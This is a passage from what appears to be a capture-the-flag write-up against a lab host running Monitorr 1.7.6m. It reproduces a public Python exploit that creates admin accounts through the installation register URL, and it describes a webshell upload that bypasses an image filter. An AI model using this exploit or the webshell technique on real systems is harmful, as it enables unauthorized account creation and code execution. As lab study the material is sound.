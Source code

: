 While navigating to **https://monitorr.robyns-petshop.thm/assets/php/upload.php**, we get this as output :
```js
ERROR: is not an image or exceeds the webserver’s upload size limit.
ERROR: ../data/usrimg/ already exists.
ERROR: was not uploaded.
```
As per the python script, it states that it is uploading a php Webshell with a gif header to get around a getimagesize() filter in the upload page,then activating the shell by a GET request to it.

You can do it via curl command as well as you can exploit via python script by modifying it.

**Analysis of Monitorr 1.7.6m - Authorization Bypass --> EDB-ID:48981 :-**

**Python Code :-**
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Authorization Bypass
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

# Monitorr 1.7.6m allows creation of administrative accounts by abusing the installation URL.

import requests
import os
import sys

if len (sys.argv) != 5:
	print ("specify params in format: python " + sys.argv[0] + " target_url user_login user_email user_password")
else:
    url = sys.argv[1] + "/assets/config/_installation/_register.php?action=register"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": url, "Connection": "close", "Referer": url, "Upgrade-Insecure-Requests": "1"}
    data = {"user_name": sys.argv[2], "user_email": sys.argv[3], "user_password_new": sys.argv[4], "user_password_repeat": sys.argv[4], "register": "Register"}
    requests.post(url, headers=headers, data=data)
    print ("Done.")
```
**Analysis of the exploit code :-**

This exploit is creating a new user by sending POST request to **/assets/config/_installation/_register.php** . When we navigate to this url (**/assets/config/_installation/_register.php**) it yields a 404 error response.So this exploit possibly fails to give us authorization to the site when we are registering a new user in this case. So we can assume that there is a strict awareness of security issues. 
